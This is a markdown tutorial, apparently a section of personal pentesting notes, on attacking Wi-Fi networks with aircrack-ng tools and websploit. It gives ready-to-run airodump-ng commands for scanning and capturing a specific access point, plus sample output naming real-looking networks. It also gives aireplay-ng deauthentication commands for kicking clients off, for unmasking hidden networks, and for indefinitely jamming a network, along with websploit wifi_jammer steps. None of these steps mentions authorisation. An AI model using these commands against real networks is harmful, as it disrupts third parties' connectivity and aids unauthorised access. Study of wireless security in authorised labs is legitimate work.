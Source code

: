 # 4. Gather AP Information

Gather informatin using airodump-ng tools.

`airodump-ng wlan0mon`
Or
`airodump-ng wlan0`

Based on network card name.

```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                        
0C:80:63:5B:87:7C   -1        0        2    0  10  -1   WPA              <length:  0>
2C:30:33:2A:77:7A  -60        8        0    0  11   65  WPA2 CCMP   PSK  Limon
70:4F:57:55:CC:F0  -65        9        0    0   1  270  WPA2 CCMP   PSK  SK
18:A6:F7:60:1E:D2  -67        9      453    0   1  270  WPA2 CCMP   PSK  BigAbir
```

```
BASSID	-> MAC address of the network.
PWR		-> Distance between us.
Beacons	-> Number of the announcement of the packet sent by access point.
#/s 	-> Capture data par seconds.
CH		-> The chanel the running on.
MB		-> Maximun speed the access point support.
ENC		-> Encryption type.
CIPHER	-> 
AUTH	-> Authontication Protocal.
ESSID	-> Name of the network.
```

## Capturing a specific Wi-Fi access point.

`iwconfig`				# check your network mode. It have to be *monitor* mode.
`airodump-ng wlan0mon`	# scan network.

If you need a specific informatin of a network.

`airodump-ng --channel 11 --bssid 2C:30:33:2A:77:7A --write Limon wlan0mon`
or
`airodump-ng --c 11 -b 2C:30:33:2A:77:7A -w limon Wlan0mon`


```
airodump-ng			-> tools
--channel/-c (CH) 	-> channel number
--bssid/-b (BSSID) 	-> BSSID / MAC address
--write/-w			-> If you want to write the information of specific network.
Limon / limon		-> Network Name
wlan0mon			-> Network interface
```

### Disconnect Any Device to Access Point

`aireplay-ng -0 3 -a 50:64:2B:C7:3E:30 -c B8:98:F7:9B:33:33 wlan0mon`

```
airplay-ng			-> tool
3					-> Authentication of the number.
-a 					-> Mac address of the target network / Wi-Fi
-c					-> Mac address of the client
wlan0mon			-> Network interface
```

### Fuebd the HIdden Wi-Fi

You have to in **motitor mode**

`airodump-ng wlan0mon`

` 10:62:EB:1F:42:6F  -83        0       14    6   1  -1   WPA              <length:  0>`

**length:  0** this network have no name. Its a hidden network.

`airodump-ng -c 1 --bssid 10:62:EB:1F:42:6F wlan0mon`

You can see this network have no name. But we can disconnect any client the network and we can discover the network name.

`aireplay-ng -0 3 -a 10:62:EB:1F:42:6F -c 78:44:76:B3:65:69 wlan0mon`

### Jamming Wi-F- Nwtwork

`aireplay-ng -0 0 -a 50:64:2B:C7:3E:30 wlan0mon`

```
airplay-ng			-> tool
0					-> Infinity number of authentication.
-a 					-> Mac address of the target network / Wi-Fi
wlan0mon			-> Network interface
```

We can using another tools for jamming network. This tools name **websploit**. This tools is not default install in kali linux. So we have to install first.

`apt-get install websploit`

`websploit`
`show modules`  # options
`use wifi/wifi_jammer`
`show options`
`set BSSID XX:XX:XX:XX:XX:XX`
`set ESSID NAME_OF_THE_NETWORK`
`run`

You can see two terminal on the network. This wifi network is jamed.

